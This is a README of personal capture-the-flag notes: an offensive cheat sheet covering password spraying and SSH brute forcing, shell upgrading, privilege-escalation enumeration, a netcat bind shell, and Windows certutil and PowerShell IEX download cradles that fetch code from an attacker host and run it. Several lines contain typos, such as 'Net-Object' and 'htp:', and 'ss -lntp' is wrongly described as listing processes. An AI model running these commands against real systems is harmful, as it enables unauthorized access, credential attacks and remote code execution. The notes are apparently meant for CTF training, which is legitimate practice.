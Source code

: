 # ctf_notes
notes gathered from doing numerous CTFs to help with further CTFs

Windows & *nix:
<p> password spraying:
<p> - crackmapexec [module] -u [users.txt] -p [passwords.txt] [ip or ip range]
<p> bruteforce (more options may be required, example used was SSH module):
<p> - medusa -h [ip] -U [users.txt] -P [passwords.txt] -M [module] [ip] 
<p>
<p>
<p> upgrade shell using python pty library and adds auto complete for steps 2+ :
<p> 1 - python -c 'import pty;pty.spawn("/bin/bash")'
<p> 2 - CTRL z
<p> 3 - stty raw -echo
<p> 4 - fg <enter key>
<p> 5 - export TERM=xterm

<p> known hosts ssh file will show all hosts the host has SSH'd into

<p> - command to reset a broke terminal session
<p> reset

<p> - mysql syntax for navigation:
<p> show databases; (shows available databases)
<p> use [database name]; (selects database to use)
<p> show tables; (shows tables in database)
<p> describe [table name]; (shows more information on values inside table)
<p> select [table value] from [table]; (shows items inside the table values of the table)
  
<p> - file upload (works with powershell and linux):
<p> curl http://[ip]:[port]/[file] -output [file]






*nix:
common privilege escalation techniques:
- seeing if any commands can be run as sude:
sudo -l
- check which programs are avilable on the system for priviledge escalation and send errors away from output
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
- download all FTP contents (--no-passive if passive is not allowed):
wget -m htp:anonymous:anonymous@<remote IP> (--no-passive) 
- bind shell:
(victim) nc -lp <port> -e /bin/bash  (attacker) rlwrap nc <ip> <port>
- listing file/ directory structure:
find . 
- listing file structure and look for specific file/ directory name
find . | grep -i <word to look for>
- show all running processes:
ss -lntp
- 







Windows:

windows powershell locations:
c:\Windows\System32\    - 32 bit
c:\Windows\SysWow64\    - 32 bit
c:\Windows\SysNative\   - 64 bit


File download:
cmd.exe
- certutil -urlcache -f http://<ip>:<port>/<file> <file output>

powershell:
- file upload (will auto run any .ps1 scripts): 
powershell IEX(New-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")
- using powershell directly causes reverse shell crash:
echo 'IEX(Net-Object Net.WebClient).downloadString("http://<ip>:<port>/<file>")' | powershell -noprofile - 
  
